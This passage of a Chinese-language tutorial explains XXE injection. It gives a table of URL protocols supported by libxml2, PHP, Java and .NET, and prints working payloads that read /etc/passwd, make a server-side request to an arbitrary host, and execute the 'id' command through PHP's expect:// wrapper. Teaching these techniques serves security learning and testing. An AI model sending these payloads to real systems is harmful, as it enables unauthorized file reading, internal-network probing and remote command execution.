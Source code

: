 ```
```
可以从一个URL加载DTD，当然按照非正常的思维，允许输入URL也就相当于允许输入其他类似`http`的协议的链接，比如`file`、`ftp`这些，那这里岂不是至少就可能存在2个漏洞了

1. SSRF
2. 任意文件读取

各语言支持的协议如下：

| LIBXML2 | PHP | JAVA | .NET |
| --- | --- | --- | --- |
| file | file | http | file |
| http | http | https | http |
| ftp | ftp | ftp | https |
|  | php | file | ftp |
|  | compress.zlib | jar |  |
|  | compress.bzip2 | netdoc |  |
|  | data | mailto |  |
|  | glob | gopher * |  |
|  | phar |  |  |

这里只介绍基础的带回显的利用方法，不带回显的可以参考下面的Payload
### 读取文件
读取`/etc/passwd`，这个明显是给`file///etc/passwd`的值赋值给`name`
```xml-dtd
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE userInfo [
        <!ELEMENT userInfo (name)>
        <!ELEMENT name (#PCDATA)>
        <!ENTITY name SYSTEM "file:///etc/passwd">
        ]>
<userInfo>
    <name>&name;</name>
</userInfo>
```
### SSRF
简单的发起http请求，根据结果具体情况具体分析
```xml-dtd
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE userInfo [
        <!ELEMENT userInfo (name)>
        <!ELEMENT name (#PCDATA)>
        <!ENTITY name SYSTEM "http://baidu.aaaa">
        ]>
<userInfo>
    <name>&name;</name>
</userInfo>
```
### 执行系统命令
比较鸡肋，比较难利用，要在安装`expect`扩展的`PHP环境`里执行系统命令，其他协议也有可能吧
```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<root>
<name>&xxe;</name>
</root>
```